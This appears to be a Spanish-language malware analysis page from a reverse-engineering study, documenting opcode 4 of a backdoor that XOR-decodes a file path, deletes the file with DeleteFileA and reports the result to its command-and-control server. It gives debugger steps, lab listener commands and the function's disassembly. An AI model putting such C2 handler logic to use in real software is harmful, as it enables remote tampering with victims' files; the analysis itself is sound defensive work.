

# FUN_004020A0 - Opcode 4

**Propósito principal: Eliminar un archivo remoto y reportar el resultado al C2.**
 
Esta función:
- Recibe un nombre de archivo ofuscado.
- Lo descifra (XOR 0x55).
- Intenta eliminarlo con DeleteFileA.
- Notifica el éxito o el fallo al servidor remoto, probablemente parte del panel de control del atacante.

________________________________________________________________________

# Análisis dinámico de Opcode 4

## Listener en python para poder probar este opcode
[listener-opcode4](../analisis-dinamico/listener-opcode-4.py)

Creamos un archivo prueba.txt en el escritorio que es el que se va a intentar borrar.  
Activamos en la MV Remnux un listener para probar este opcode en x32dbg y hacemos una captura de los paquetes que circulan por la red:
```
sudo tcpdump -i any host 10.0.0.4
sudo pythom3 listener-opcode-4.py
```


## Inicio de función 0x004020A0 – Entrada

- ECX = param_2 → puntero a la ruta XOReada.
- Clic dcho en ECX → Follow in Dump. Vemos el envío del host C2 ofuscado.
- En la dirección de memoria [ESP+8] vemos el envío del host C2 ofuscado.


## 0x004020B7 – Justo tras el bucle XOR

- La ruta ya está en claro en ECX.
- GUI: Follow in Dump → ECX para ver la ruta a borrar.

## 0x004020B8 – DeleteFileA

- Step over (F8) para ejecutar el borrado.


## 0x004020BE – test eax,eax (resultado)
- EAX != 0 → éxito.  


- EAX == 0 → fallo. Si hacemos un reset en x32dbg y volvemos a ejecutar el opcode 4, como ya está borrado el documento prueba.txt, ahora irá por la rama del fallo.



## Comunicación en el Host C2


____________________________________________
## [>> Ir al Opcode 5 >>](FUN_004020F0-opcode5.md)
____________________________________________
# FUN_004020A0 Decompilada

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __cdecl FUN_004020a0(undefined4 param_1, LPCST
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x4]:4   param_1
             LPCSTR            Stack[0x8]:4   param_2                                 XREF[1]:     004020a0(R)  
                             FUN_004020a0                                    XREF[1]:     FUN_004012f0:0040175b(c)  
        004020a0 8b 4c 24 08     MOV        ECX,dword ptr [ESP + param_2]
        004020a4 33 c0           XOR        EAX,EAX
                             LAB_004020a6                                    XREF[1]:     004020b5(j)  
        004020a6 8a 14 08        MOV        DL,byte ptr [EAX + ECX*0x1]
        004020a9 80 f2 55        XOR        DL,0x55
        004020ac 88 14 08        MOV        byte ptr [EAX + ECX*0x1],DL
        004020af 40              INC        EAX
        004020b0 3d 00 01        CMP        EAX,0x100
                 00 00
        004020b5 7c ef           JL         LAB_004020a6
        004020b7 51              PUSH       ECX
        004020b8 ff 15 34        CALL       dword ptr [->KERNEL32.DLL::DeleteFileA]          = 00009914
                 90 40 00
        004020be 85 c0           TEST       EAX,EAX
        004020c0 6a 00           PUSH       0x0
        004020c2 6a 02           PUSH       0x2
        004020c4 74 11           JZ         LAB_004020d7
        004020c6 8b 44 24 0c     MOV        EAX,dword ptr [ESP + 0xc]
        004020ca 68 94 a1        PUSH       DAT_0040a194                                     = 30h    0
                 40 00
        004020cf 50              PUSH       EAX
        004020d0 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        004020d6 c3              RET
                             LAB_004020d7                                    XREF[1]:     004020c4(j)  
        004020d7 8b 4c 24 0c     MOV        ECX,dword ptr [ESP + 0xc]
        004020db 68 90 a1        PUSH       DAT_0040a190                                     = 31h    1
                 40 00
        004020e0 51              PUSH       ECX
        004020e1 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        004020e7 c3              RET

```
